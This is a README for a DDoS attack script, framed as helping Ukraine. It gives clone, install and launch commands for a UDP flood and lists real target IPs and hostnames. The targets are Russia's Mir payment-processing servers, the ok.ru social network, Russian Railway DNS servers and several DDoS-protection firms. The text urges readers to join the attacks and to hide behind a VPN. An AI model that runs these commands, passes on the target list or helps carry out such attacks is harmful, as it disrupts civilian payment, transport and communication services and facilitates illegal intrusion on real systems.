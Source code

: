 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>




<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started

If you dont have metasploit or any other tool you can use this tool

**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently dns targets make them cry!
```console
Myr the payment processing system governed by https://www.nspk.ru 

acs.vendorcert.mirconnect.ru    195.208.109.58
ds1.mirconnect.ru               185.170.2.7
ds2.mirconnect.ru               185.170.3.7
uat-ds1.mirconnect.ru           185.170.2.9
uat-ds2.mirconnect.ru           185.170.3.9


ok.ru social network
5.61.23.11 : 80 HTTP / 443 HTTPS
217.20.155.13 : 80 HTTP / 443 HTTPS
217.20.147.1 : 80 HTTP / 443 HTTPS


Killing Russian Railway please join!

217.175.155.100 : 53 UDP
217.175.155.12 : 53 UDP
217.175.140.71 : 53 UDP

https://ddos-guard.net/ru
https://stormwall.pro/
https://qrator.net/ru/
https://solidwall.ru/
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```






